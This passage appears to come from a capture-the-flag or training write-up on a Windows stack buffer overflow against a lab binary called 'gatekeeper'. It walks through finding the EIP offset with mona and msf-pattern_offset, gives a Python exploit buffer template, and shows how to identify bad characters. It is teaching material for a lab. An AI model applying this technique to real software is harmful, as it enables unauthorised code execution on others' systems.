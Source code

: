     !mona findmsp -distance 450
    ...
    [+] Looking for cyclic pattern in memory
    EIP contains normal pattern : 0x39654138 (offset 146)

Equally you can also use msf-pattern_offeset

    msf-pattern_offset -q 39654138 
    [] Exact match at offset 146                        

Now lets Create a new buffer using this information to ensure that we can control EIP:

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

    prefix = ""
    offset = 146
    overflow = "A" * offset
    retn = "BBBB"
    padding = ""
    payload = ""
    postfix = ""

    buffer = prefix + overflow + retn + padding + payload + postfix
    
Crash the application using this buffer, and make sure that EIP is overwritten by B's (\\x42)e.g. 42424242.

Finding Bad Characters
======================

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

    !mona bytearray -b "\x00"

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff:

    from __future__ import print_function

    for x in range(1, 256):
        print("\\x" + "{:02x}".format(x), end='')

    print()

Crash the application using this buffer, and make a note of the address to which ESP points. This can change every time you crash the application, so get into the habit of copying it from the register each time.

Use the mona compare command to reference the bytearray you generated, and the address to which ESP points:

    !mona compare -f C:\mona\gatekeeper\bytearray.bin -a <address>

We take note of the badchars returned:

    00 0A

The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.
